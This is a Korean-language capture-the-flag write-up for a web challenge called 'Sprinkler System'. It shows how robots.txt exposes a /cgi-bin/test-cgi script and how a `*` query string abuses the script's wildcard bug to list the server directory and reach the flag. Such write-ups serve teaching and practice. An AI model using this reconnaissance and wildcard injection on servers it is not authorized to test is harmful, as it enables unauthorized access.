 ## Sprinkler System - 100

### Description

> Damn new york... some chick tricked you into standing in the rain on the very first day... it's payback time!

> http://sprinklers.alieni.se/

### Write up

> UNAUTHORIZED ACCESS WILL BE PROSECUTED

라는 메세지가 적힌 페이지가 보인다.

소스를 살펴봐도 별 특별한 것이 없다.

서버의 다른 파일을 찾기 위해 `robots.txt`를 살펴보자.

> http://sprinklers.alieni.se/robots.txt

```
User-agent: *
Disallow: /cgi-bin/test-cgi
```

`test-cgi` 라는 파일의 존재를 확인할 수 있다.

> http://sprinklers.alieni.se/cgi-bin/test-cgi

```
CGI/1.0 test script report:

argc is 0. argv is .

SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
PATH_INFO =
PATH_TRANSLATED =
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING =
REMOTE_HOST =
REMOTE_ADDR = 162.158.59.91
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH =
```

뭔가 여러 메세지가 나온다.

argc, argv라는 단어가 있는 것을 보면 유저가 인풋을 넣어줄 수 있을 것 같다.

> http://sprinklers.alieni.se/cgi-bin/test-cgi?ASDFASDF

```
QUERY_STRING = ASDFASDF
````

적당한 파라미터를 주면, `QUERY_STRING`의 값이 바뀌는 것을 확인할 수 있다.

그러다 어떤 식으로 인풋을 넣어줘야 할까 검색을 하다보니, 디렉토리 리스팅이 가능하다는 [test-cgi 취약점 ](http://insecure.org/sploits/test-cgi.html) 글을 발견했다.

와일드카드 문자가 명령어로 들어가는 모양.

따라서 인풋으로 `*`을 넣어주면

> http://sprinklers.alieni.se/cgi-bin/test-cgi?*

```
QUERY_STRING = enable_sprinkler_system test-cgi
```

현재 디렉토리의 파일 목록을 볼 수 있다.

test-cgi 외에 `enable_sprinkler_system`이라는 파일이 있다는 것을 확인할 수 있고,

> http://sprinklers.alieni.se/cgi-bin/enable_sprinkler_system

로 접속하면 플래그를 확인할 수 있다.


> SECT{-p00l_On_t3h_r00f_must_h@v3_A_l3ak!-}
